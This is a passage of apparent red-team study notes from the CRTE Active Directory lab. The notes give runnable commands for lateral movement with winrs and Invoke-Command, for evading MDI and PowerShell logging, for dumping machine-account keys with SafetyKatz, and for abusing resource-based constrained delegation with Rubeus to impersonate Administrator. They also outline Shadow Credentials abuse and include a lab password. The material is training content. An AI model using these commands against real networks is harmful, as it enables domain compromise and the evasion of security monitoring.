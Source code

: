 - use winrs instead of PSRemoting to evade certain logging: `winrs -remote:0xd4y_server -u:notes\0xd4y -p:Pl3as3Subscr1b3 <COMMAND>`
    - can evade system-wide transcripts and deep script block logging

With credentials, execute commands on remote machine like this:

```powershell
$creds = Get-Credential
Invoke-Command -Credential $creds -ScriptBlock {whoami} -Computer 0xd4y_machine
```

- use `opassth` with `SafetyKatz`  (instead of `pth`) and `aes256` instead of `ntlm` to prevent detections by MDI
    - starts PowerShell session with logon type 9 just like `runas /netonly`
    - note `opassth` is just the command specific to the modified Mimikatz version in the CRTE lab (modified version of `pth`)

### GenericWrite on Computer

- with `GenericWrite` or `GenericAll` on a computer, you can enable constrained delegation to laterally move

******************************************************************Enabling Constrained Delegation******************************************************************

```powershell
# Enabled resource-based constrained delegation on target machine
Set-ADComputer -Identity target_machine -PrincipalsAllowedToDelegateToAccount owned_machine_account$

# Get hash of owned machine account
SafetyKatz "sekurlsa::ekeys" 

# Get TGS for HTTP service by impersonating Admin
Rubeus.exe s4u /user:owned_machine_account$ /aes256:<owned_machine_account_hash> /msdsspn:http/target_machine /impersonateuser:Administrator /ptt

```

## Shadow Credentials

- leverages `msDS-KeyCredentialLink` attribute to authenticate as another user or computer account
    - attribute used when Windows Hello for Business (WHfB) is configured
- `msDS-KeyCredentialsLink` attribute contains raw public keys of certificate, and will still work even if the credentials of the user or computer account are modified
- only Key Admins and Enterprise Key Admins, or users with `GenericAll` or `GenericWrite` are allowed to modify the `msDS-KeyCredentialsLink` attribute on a target user

To abuse Shadow Credentials:

1. AD CS should be configured or a Key Trust should be present
2. PKINIT should be supported
3. At least one DC with Windows Server 2016 or above
4. Need `GenericWrite` or `GenericAll` permissions on target object
